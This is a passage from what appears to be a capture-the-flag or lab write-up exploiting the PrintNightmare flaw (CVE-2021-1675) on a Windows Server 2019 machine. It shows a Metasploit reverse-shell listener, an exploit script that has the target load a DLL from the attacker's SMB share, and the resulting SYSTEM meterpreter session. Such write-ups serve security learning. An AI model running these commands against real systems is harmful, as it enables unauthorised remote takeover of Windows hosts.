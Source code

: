 ```shell
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}

Set up a listener using msfconsole with a multi handler exploit and adjust the payload to the created dll file.

```shell
➜ nightforge msfconsole -q                                                              
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.201.137
LHOST => 10.18.201.137
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.18.201.137:4444
```
{: .nolineno}

Use the exploit script publicly available on github and it will execute the printspooler vulnerability automatically.

```shell
➜ CVE-2021-1675 git:(main) python3 CVE-2021-1675.py 10.1.2.172/paranoia:bad_dr34m@10.1.2.172 '\\10.18.201.137\smb\payload.dll'
[*] Connecting to ncacn_np:10.1.2.172[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.18.201.137\smb\payload.dll
[*] Try 1...
[*] Stage0: 0
```
{: .nolineno}

Once the dll file is executed, a reverse shell session will open with the `meterpreter > ` flag and use some commands to validate the success of the exploit.

```shell
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.18.201.137:4444
[*] Sending stage (203846 bytes) to 10.1.2.172
[*] Meterpreter session 1 opened (10.18.201.137:4444 -> 10.1.2.172:51415)

meterpreter > sysinfo
Computer        : NIGHTFORGE
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > shell -i
Process 2272 created.
Channel 4 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system
```
{: .nolineno}